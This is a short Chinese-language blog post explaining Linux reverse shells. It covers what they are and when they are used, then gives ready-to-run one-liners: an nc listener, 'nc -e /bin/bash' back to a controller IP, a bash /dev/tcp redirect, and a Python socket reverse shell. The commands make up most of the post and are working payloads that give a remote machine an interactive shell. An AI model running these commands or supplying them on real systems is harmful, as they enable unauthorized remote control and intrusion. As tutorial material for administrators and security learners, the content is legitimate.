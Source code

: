 ```yaml
---
title: "Linux 反弹 shell"
date: "2022-07-11 15:23:00"
lastmod: "2022-07-21 15:04:10"
tags: ["shell"]
categories: ["Linux"]
draft: false
---
```


## 什么是反弹 Shell {#什么是反弹-shell}

控制端首先监听某个 TCP/UDP 端口，然后被控制端向这个端口发起一个请求，同时将自己命令行的输入输出转移到控制端，从而控制端就可以输入命令来控制被控端了


## 反弹 Shell 应用场景 {#反弹-shell-应用场景}

-   A 虽然有公网 IP，但 B 是一个处于内网的机器，A 就没法直接连到 B 上
-   B 上开了防火墙或者安全组限制，sshd 的服务端口 22 被封闭了
-   B 是一台拨号主机，其 IP 地址经常变动
-   假如 B 被攻击了，我们想让 B 向 A 汇报自己的状况，那自然就需要 B 主动去连接 A


## 反弹 Shell 案例 {#反弹-shell-案例}

-   A: 控制端,IP111.112.113.114
-   B: 被控制端


### nc {#nc}

> yum install -y nc

-   A:

<!--listend-->

```bash
nc -lvp 32767
```

-   B:

<!--listend-->

```bash
nc 111.112.113.114 32767 -e /bin/bash
```


### bash {#bash}

-   A 同上
-   B:

    ```bash
    bash -i >& /dev/tcp/111.112.113.114/32767 0>&1
    ```


### python {#python}

-   A 同上
-   B:

<!--listend-->

```python
python -c 'import socket,subprocess,os; \
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("111.112.113.114",32767));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```


## Ref {#ref}

-   [什么是反弹 Shell？](https://mp.weixin.qq.com/s/d3fDWWTKLF0mCpCMeAd4Ew)